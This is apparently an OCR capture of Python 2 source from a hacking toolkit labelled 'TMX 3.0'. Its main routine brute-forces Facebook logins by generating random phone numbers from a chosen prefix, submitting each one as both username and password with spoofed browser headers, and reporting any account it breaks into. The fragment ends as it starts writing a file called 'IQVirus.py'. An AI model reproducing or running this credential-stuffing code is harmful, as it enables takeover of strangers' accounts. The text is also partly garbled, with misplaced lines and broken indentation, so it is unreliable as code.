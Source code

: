>     print '                          *   * /+/++//'
>     print '                           \\ /  |/__//'
>     print '                         {X}v{X}|TMX|==========.'
>     print '                           (,)  /,|,\\           /'
>     print "                               /  \\  \\          '"
>     print '                                \\_  \\_ \\_   ___TMX 3.0___'
>     print '\t\t\t078'
>     print '\t\t\t077'
>     print '\t\t\t079'
>     print '\t\t\t07'
>     d = str(0)
>     i = str(raw_input('eEnter Number >> :'))
> 
 print '\t\t\t078'>     def wolf():
>         for x in range(300):
>             if i == '078':
>                 a = str(ran(780000000L, 789999999L))
>             elif i == '077':
>                 a = str(ran(770000000L, 779999999L))
>             elif i == '079':
>                 a = str(ran(791111111, 799999999))
>              elif i == '07':
>	              a = str(ran(771111111, 779999999))
>             else:
>                 exit()
>             login = 'https://www.facebook.com/login.php?login_attempt=1'
>             useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]
> 
>             def main():
>                 br = mechanize.Browser()
>                 cj = cookielib.LWPCookieJar()
>                 br.set_handle_robots(False)
>                 br.set_handle_redirect(True)
>                 br.set_cookiejar(cj)
>                 br.set_handle_equiv(True)
>                 br.set_handle_referer(True)
>                 br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
>                 br.addheaders = [('User-agent', random.choice(useragents))]
>                 site = br.open(login)
>                 br.select_form(nr=0)
>                 br.form['email'] = d + a
>                 br.form['pass'] = d + a
>                 sub = br.submit()
>                 log = sub.geturl()
>                 print Bc + 'please loading ..  ' + d + a
>                 if log != login and 'login_attempt' not in log:
>                     print '\x1b[1;31m' + ' \t\t\tfound Account (: ' + d + a
>                 else:
>                     print '\x1b[1;32m' + '\t\t\tAccount not found ): '
> 
>             main()
> 
> 
>     if __name__ == '__main__':
>         wolf()
> if im == '19':
>     import os
>     iqline = open('IQVirus.py', 'w')
>     print ' Loading .'
>     os.system('sleep 0.5')
>     print 'Loading ..'
>     os.system('sleep 0.5')